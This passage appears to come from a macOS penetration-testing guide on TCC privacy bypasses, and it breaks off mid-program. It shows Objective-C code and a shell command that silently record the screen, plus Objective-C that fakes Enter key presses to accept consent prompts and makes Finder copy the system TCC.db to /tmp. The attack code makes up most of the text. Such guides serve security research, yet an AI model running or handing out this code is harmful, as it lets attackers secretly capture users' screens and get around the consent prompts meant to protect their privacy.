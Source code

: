```objectivec
    dispatch_after(dispatch_time(DISPATCH_TIME_NOW, (int64_t)(5 * NSEC_PER_SEC)), dispatch_get_main_queue(), ^{
        [fileOutput stopRecording];
    });

    CFRunLoopRun();
    freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt
}
```
{% endtab %}

{% tab title="Shell" %}
Record the main screen for 5s

```bash
screencapture -V 5 /tmp/screen.mov
```
{% endtab %}
{% endtabs %}

### Accessibility

* **Entitlement**: None
* **TCC**: `kTCCServiceAccessibility`

Use the TCC privilege to accept the control of Finder pressing enter and bypass TCC that way

{% tabs %}
{% tab title="Accept TCC" %}
```objectivec
#import <Foundation/Foundation.h>
#import <ApplicationServices/ApplicationServices.h>
#import <OSAKit/OSAKit.h>

// clang -framework Foundation -framework ApplicationServices -framework OSAKit -o ParallelScript ParallelScript.m
// TODO: Improve to monitor the foreground app and press enter when TCC appears

void SimulateKeyPress(CGKeyCode keyCode) {
    CGEventRef keyDownEvent = CGEventCreateKeyboardEvent(NULL, keyCode, true);
    CGEventRef keyUpEvent = CGEventCreateKeyboardEvent(NULL, keyCode, false);
    CGEventPost(kCGHIDEventTap, keyDownEvent);
    CGEventPost(kCGHIDEventTap, keyUpEvent);
    if (keyDownEvent) CFRelease(keyDownEvent);
    if (keyUpEvent) CFRelease(keyUpEvent);
}

void RunAppleScript() {
    NSLog(@"Starting AppleScript");
    NSString *scriptSource = @"tell application \"Finder\"\n"
                             "set sourceFile to POSIX file \"/Library/Application Support/com.apple.TCC/TCC.db\" as alias\n"
                             "set targetFolder to POSIX file \"/tmp\" as alias\n"
                             "duplicate file sourceFile to targetFolder with replacing\n"
                             "end tell\n";

    NSDictionary *errorDict = nil;
    NSAppleScript *appleScript = [[NSAppleScript alloc] initWithSource:scriptSource];
    [appleScript executeAndReturnError:&errorDict];

    if (errorDict) {
        NSLog(@"AppleScript Error: %@", errorDict);
    }
}

int main() {
```